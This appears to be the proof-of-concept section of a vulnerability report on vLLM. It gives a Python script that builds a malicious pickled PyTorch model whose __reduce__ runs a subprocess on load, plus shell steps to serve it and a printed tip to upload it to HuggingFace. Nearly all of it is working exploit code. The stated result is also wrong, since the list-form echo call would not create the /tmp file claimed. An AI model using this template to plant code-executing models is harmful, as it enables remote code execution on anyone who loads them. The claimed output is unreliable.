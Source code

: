 
## Proof of Concept

### **PoC 1: Malicious Model Creation**

```python
#!/usr/bin/env python3
"""
PoC: Create malicious PyTorch model for vLLM
Demonstrates arbitrary code execution via pickle deserialization
"""

import torch
import os

class MaliciousModel:
    """Malicious payload that executes during unpickling"""

    def __reduce__(self):
        # This will execute when the model is loaded
        import subprocess
        return (
            subprocess.call,
            (['echo', 'VLLM_RCE_EXPLOIT_SUCCESSFUL > /tmp/vllm_pwned'],)
        )

# Create malicious model state dict
malicious_state = {
    'model': MaliciousModel(),
    'version': '1.0'
}

# Save as PyTorch model
torch.save(malicious_state, 'malicious_model.pt')
print("[+] Created malicious_model.pt")
print("[+] Upload this to HuggingFace or serve locally")
print("[+] When vLLM loads it, arbitrary code will execute")
```

### **PoC 2: Exploitation via vLLM**

```bash
# Step 1: Create malicious model
python3 create_malicious_model.py

# Step 2: Serve malicious model with vLLM
vllm serve ./malicious_model.pt --device cpu

# Expected Result:
# [+] File created: /tmp/vllm_pwned
# [+] Arbitrary code execution confirmed!
```

